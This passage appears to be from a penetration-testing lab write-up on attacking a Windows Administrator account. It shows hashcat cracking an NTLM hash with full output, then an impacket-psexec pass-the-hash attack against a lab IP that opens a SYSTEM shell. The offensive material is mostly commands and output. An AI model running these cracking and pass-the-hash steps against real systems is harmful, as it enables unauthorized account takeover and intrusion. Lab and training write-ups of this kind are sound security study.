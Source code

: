 Save the hash and the password to a file:

```shell
❯ echo 'a9a46a3fc0b4efcd2baf566ffe2a209b' > hash.txt
❯ echo 'con123' > pass.txt
```

With that we can simulate a dictionary attack of the Administrator user NTLM hash using hashcat:

```shell
❯ hashcat -m 1000 --force hash.txt pass.txt
hashcat (v6.1.1) starting...

<...SNIP...>

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:con123

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
Time.Started.....: Tue Mar  8 18:05:45 2022, (0 secs)
Time.Estimated...: Tue Mar  8 18:05:45 2022, (0 secs)
Guess.Base.......: File (pass.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       21 H/s (0.00ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1/1 (100.00%)
Rejected.........: 0/1 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: con123 -> con123
```

Now we can use the cracked password to log in as the Administrator user.

Alternatively, we can use the hash to perform a Pass-The-Hash attack that will spawn a shell running as administrator without needing to crack their password. Remember the full hash includes both the LM and NTLM hash, separated by a colon:

```shell
❯ impacket-psexec -hashes 'aad3b435b51404eeaad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxx' Administrator@192.168.119.129

Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 192.168.119.129.....
[*] Found writable share ADMIN$
[*] Uploading file vlAbGeHR.exe
[*] Opening SVCManager on 192.168.119.129.....
[*] Creating service zKiJ on 192.168.119.129.....
[*] Starting service zKiJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.22000.493]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
```